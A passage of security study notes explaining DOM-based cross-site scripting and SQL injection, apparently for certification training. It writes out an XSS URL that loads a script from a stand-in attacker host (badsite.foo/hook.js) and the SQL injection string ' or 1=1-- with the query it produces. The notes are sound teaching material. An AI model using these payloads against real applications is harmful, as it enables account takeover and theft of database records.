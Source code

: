     https://trusted.foo/messages?user=james
    
2.  The attacker crafts a URL to modify the parameters of a script that the server will return, such as:
    
    https://trusted.foo/messages?user=James%3Cscript%20src%3D%22https%3A%2F%2Fbadsite.foo%2Fhook.js%22%3E%3C%2Fscript%3E
    
3.  The server returns a page with the legitimate DOM script embedded, but containing the parameter:
    
    James<script src="https://badsite.foo/hook.js"></script>
    
4.  The browser renders the page using the DOM script, adding the text "James" to the header, but also executing the hook.js script at the same time.
# STRUCTURED QUERY LANGUAGE INJECTION ATTACKS

Attacks such as session replay, CSRF, and [[DOM]]-based [[XSS]] are [[client-side]] [[attack]]s. This means that they execute arbitrary code on the browser. A server-side attack causes the server to do some processing or run a script or query in a way that is not authorized by the application design. Most server-side attacks depend on some kind of injection attack.

**Where an overflow attack works against the way a process performs memory management**, an **injection attack exploits some unsecure way in which the application processes requests and queries**. For example, an application might allow a user to view his or her profile with a database query that should return the single record for that one user's profile. An application vulnerable to an injection attack might allow a [[threat actor]] to return the records for all users, or to change fields in the record when they are only supposed to be able to read them.

A web application is likely to use Structured Query Language ([[SQL]]) to read and write information from a database. The main database operations are performed by SQL statements for selecting data (SELECT), inserting data (INSERT), deleting data (DELETE), and updating data (UPDATE). In a SQL injection attack, the [[threat actor]] modifies one or more of these four basic functions by adding code to some input accepted by the app, causing it to execute the attacker's own set of SQL queries or parameters. If successful, this could allow the attacker to extract or insert information into the database or execute arbitrary code on the remote system using the same privileges as the database application ([owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)).

For example, consider a web form that is supposed to take a name as input. If the user enters "Bob", the application runs the following query:

SELECT * FROM tbl_user WHERE username = 'Bob'

If a [[threat actor]] enters the string **' or 1=1--** and this input is not sanitized, the following malicious query will be executed:

SELECT * FROM tbl_user WHERE username = '' or 1=1--'

The logical statement 1=1 is always true, and the -- string turns the rest of the statement into a comment, making it more likely that the web application will parse this modified version and dump a list of all users.
# XML AND LDAP INJECTION ATTACKS
